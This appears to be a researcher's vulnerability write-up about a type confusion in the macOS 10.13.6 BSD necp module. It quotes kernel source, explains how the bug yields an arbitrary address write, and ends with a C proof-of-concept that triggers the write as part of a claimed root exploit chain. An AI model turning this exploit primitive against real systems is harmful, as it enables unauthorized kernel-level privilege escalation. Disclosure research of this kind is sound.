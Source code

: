# Description
necp module in BSD has a fatal type confusion problem that leads to multiple vulnerabilities. One of these cases is arbitrary-address-write.

Please be noticed that I already successfully use 3 vulnerabilities in BSD to `root` the latest public macOS `10.13.6`.  

The 3 cases are:  
* `(zdi-rcx15) necp arbitrary address write case.`
* (zdi-rcx16) necp arbitrary address free case.
* (zdi-rcx17) progargsx heap leak case. 

the zdi-rcx15 is the one I will describle in the following article.

# Environment
* OS: 		    macOS 10.13.6
* Module:	    BSD

# Analysis and Exploit
1. **Type Confusion**   
    Skip.

2. **Exploit: Arbitrary Address Write(AAW)**  
   Action 1 of necp_client_action is necp_client_add which calls `necp_client_update_observer_add`:
   ```
   static void
    necp_client_update_observer_add(struct necp_client *client)
    {
	    NECP_OBSERVER_LIST_LOCK_SHARED();

	    if (LIST_EMPTY(&necp_fd_observer_list)) {
		    // No observers, bail
		    NECP_OBSERVER_LIST_UNLOCK();
		    return;
	    }

	    struct necp_fd_data *observer_fd = NULL;
	    LIST_FOREACH(observer_fd, &necp_fd_observer_list, chain) {
		    necp_client_update_observer_add_internal(observer_fd, client);  ---（a）
	    }

	    NECP_OBSERVER_LIST_UNLOCK();
    }
   ```
   at location (a), if necp_fd_observer_list is not empty, necp_client_update_observer_add_internal is called on each node in necp_fd_observer_list:
    ```
    static void
    necp_client_update_observer_add_internal(struct necp_fd_data *observer_fd, struct necp_client *client)
    {
	    NECP_FD_LOCK(observer_fd);

	    if (observer_fd->update_count >= necp_observer_message_limit) {
		    NECP_FD_UNLOCK(observer_fd);
		    return;
	    }

	    struct necp_client_update *client_update = _MALLOC(sizeof(struct necp_client_update) + client->parameters_length,
													   M_NECP, M_WAITOK | M_ZERO);
	    if (client_update != NULL) {
		    client_update->update_length = sizeof(struct necp_client_observer_update) + client->parameters_length;
		    uuid_copy(client_update->client_id, client->client_id);
		    client_update->update.update_type = NECP_CLIENT_UPDATE_TYPE_PARAMETERS;
		    memcpy(client_update->update.tlv_buffer, client->parameters, client->parameters_length);
		    TAILQ_INSERT_TAIL(&observer_fd->update_list, client_update, chain); ---(b)
		    observer_fd->update_count++;

		    necp_fd_notify(observer_fd, true);
	    }

	    NECP_FD_UNLOCK(observer_fd);
    }
    ```
    At location (b), observer_fd->update_list will be tail-inserted with new allocated client_update. Remembered that update_list(0x10) is 0xf bytes controllable with first byte aways of value 0x00. And here tail-insert uses last 8 bytes which are totally controllable. So we get :  
    `0xXXXXXXXXXXXXXXXX = addr of client_update` 

    observer_fd is inserted into necp_fd_observer_list in function necp_open with (flag & 4) != 0 :
    ```
    int
    necp_open(struct proc *p, struct necp_open_args *uap, int *retval)
    {
        ...
        if (fd_data->flags & NECP_OPEN_FLAG_PUSH_OBSERVER) {
		    NECP_OBSERVER_LIST_LOCK_EXCLUSIVE();
		    LIST_INSERT_HEAD(&necp_fd_observer_list, fd_data, chain); ---(a)
		    OSIncrementAtomic(&necp_observer_fd_count);
		    NECP_OBSERVER_LIST_UNLOCK();

		    // Walk all existing clients and add them
		    NECP_CLIENT_TREE_LOCK_SHARED();
		    struct necp_client *existing_client = NULL;
		    RB_FOREACH(existing_client, _necp_client_global_tree, &necp_client_global_tree) {
			    NECP_CLIENT_LOCK(existing_client);
			    necp_client_update_observer_add_internal(fd_data, existing_client); ---(b)
			    necp_client_update_observer_update_internal(fd_data, existing_client);
			    NECP_CLIENT_UNLOCK(existing_client);
		    }
		    NECP_CLIENT_TREE_UNLOCK();
	    } else {
		    NECP_FD_LIST_LOCK_EXCLUSIVE();
		    LIST_INSERT_HEAD(&necp_fd_list, fd_data, chain);
		    OSIncrementAtomic(&necp_client_fd_count);
		    NECP_FD_LIST_UNLOCK();
	    }

        ...
    }
    ```
    at (a), necp_fd_observer_list is inserted with fd_data which points to necp_fd_data; please be noticed that at (b), fd_data->update_list may be reset to other values which means in necp_session_action, **session->proc_locked** may be True. We want the proc_locked value always be 0, so we need clear _necp_client_global_tree if we insert some node into it, or make sure the last node in _necp_client_global_tree has address ends with 0x00(the first byte).

# PoC of AAW

```
bool necp_write() {
    bool bret = false;
    int fd[250] = {0};  //max fd num shoule be around 256
    
    for (int i =0; i<250; i+=2) {
        //printf("i: %d\n",i);
        
        char yy[0xa0];
        fd[i] = necp_open(4);
        // a) this call may fail due to non-empty necp_client_global_tree, so we try 250.
        //    you can also call necp_client_remove to clear necp_client_global_tree thus we don't need try :-)
        int iret = necp_session_action(fd[i], 0, yy, 0, yy, 0xa0);
        //printf("i:%d necp_session_action iret:%d\n", i, iret);
        
        char client_id[0x10];
        uint64_t buffer[0x100];
        fd[i+1] = necp_open(2);
        //b) this call will insert new client into necp_client_global_tree, make a) failure except the new client address ends with 0x00
        necp_client_action(fd[i+1], 1, client_id, 0x10, (char*)buffer,0x100);
        
        if (iret != 0) {
            bret = true;
            break;
        }
        //sleep(1);
    }
    
    return bret;
}
```